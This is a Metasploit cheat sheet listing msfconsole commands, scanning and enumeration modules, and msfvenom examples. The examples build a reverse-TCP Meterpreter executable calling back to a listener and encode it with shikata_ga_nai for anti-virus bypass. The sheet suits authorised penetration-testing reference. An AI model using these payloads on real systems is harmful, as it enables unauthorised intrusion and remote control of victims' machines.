 # Metasploit Cheat Sheet

***
Metasploit Project is a computer security project which provide information about vulnerabilities. Help in the development of penetration tests and IDS signatures, metasploit is very popular tool used by pentest experts.

### Metasploit :

- ###### Search for module:

```bash
msf > search [regex]
```

- ###### Specify and exploit to use:

```bash
msf > use exploit/[ExploitPath]
```

- ###### Specify a Payload to use:

```bash
msf > set PAYLOAD [PayloadPath]
```

- ###### Show options for the current modules:

```bash
msf > show options
```

- ###### Set options:

```bash
msf > set [Option] [Value]
```

- ###### Start exploit:

```bash
msf > exploit 
```
***

### Useful Auxiliary Modules


- ###### Port Scanner:

```bash
msf > use auxiliary/scanner/portscan/tcp
msf > set RHOSTS 192.168.10.0/24
msf > run
```

- ###### DNS Enumeration:

```bash
msf > use auxiliary/gather/dns_enum
msf > set DOMAIN target.tgt
msf > run
```

- ###### FTP Server:

```bash
msf > use auxiliary/server/ftp
msf > set FTPROOT /tmp/ftproot
msf > run
```

- ###### Proxy Server:

```bash
msf > use auxiliary/server/socks4
msf > run 
```
***

# msfvenom :

msfvenom this is tool can be used to generate Metasploit payloads as standalone files and optionally encode them. This tool replaces `msfpayload` and `msfencode` tools. Run with ‘'-l payloads’ to get a list of payloads.

```bash
$ msfvenom –p [PayloadPath]
–f [FormatType]
LHOST=[LocalHost (if reverse conn.)]
LPORT=[LocalPort]
```


- ##### Example: Reverse Meterpreter payload as an executable and redirected into a file:

```bash
$ msfvenom -p windows/meterpreter/
reverse_tcp -f exe LHOST=192.168.1.1
LPORT=4444 > met.exe
```

- ##### Format Options **(specified with –f)** --help-formats – List available output formats

    * `-exe` – Executable
    * `-pl` – Perl
    * `-rb` – Ruby
    * `-raw` – Raw shellcode
    * `-c` – C code
#
- ##### Encoding Payloads with msfvenom

msfvenom can be used to apply a level of encoding for anti-virus bypass. For example run msfvenom with `-l encoders` to get a list of encoders.

```bash
$ msfvenom -p [Payload] -e [Encoder] -f
[FormatType] -i [EncodeInterations]
LHOST=[LocalHost (if reverse conn.)]
LPORT=[LocalPort]
```

- ##### Example: Encode a payload from msfpayload 5 times using shikata-ga-nai encoder and output as executable:

```bash
$ msfvenom -p windows/meterpreter/
reverse_tcp -i 5 -e x86/shikata_ga_nai -f
exe LHOST=192.168.1.1 LPORT=4444 > mal.exe
```
***

